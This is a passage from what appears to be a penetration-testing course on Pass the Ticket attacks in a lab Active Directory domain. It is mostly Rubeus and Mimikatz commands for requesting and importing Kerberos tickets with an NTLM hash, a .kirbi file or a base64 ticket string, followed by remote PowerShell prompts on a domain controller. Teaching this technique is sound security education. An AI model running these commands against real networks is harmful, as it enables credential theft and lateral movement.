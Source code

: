 With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
   ______        _
```
{% endcode %}

Note that now it displays `Ticket successfully imported!`.

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

{% code fullWidth="true" %}
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
{% endcode %}

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

doQAAAWfMIQAAAWZoIQAAAADAgEFoYQAAAADAgEWooQAAAQ5MIQAAAQzYYQAAAQtMIQAAAQnoIQAAAADAgEFoYQAAAAJGwdIVEIuQ09NooQAAAAsMIQAAAAmoIQAAAADAgECoYQAAAAXMIQAAAARGwZrcmJ0Z3QbB0hUQi5DT02jhAAAA9cwhAAAA9GghAAAAAMCARKhhAAAAAMCAQKihAAAA7kEggO1zqm0SuXewDEmypVORXzj8hyqSmikY9gxbM9xdpmA8r2EvTnv0UYkQFdf4B73Ss5ylutsSsyvnZYRVr8Ta9Wx/fvnjpJw/T70suDA4CgsuSZcBSo/jMnDjucWNtlDc8ez6<SNIP>
```
{% endcode %}

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```
{% endcode %}

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module `kerberos::ptt` and the .kirbi file that contains the ticket we want to import.

{% code fullWidth="true" %}
```cmd-session
C:\tools> mimikatz.exe 



mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

```
{% endcode %}


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname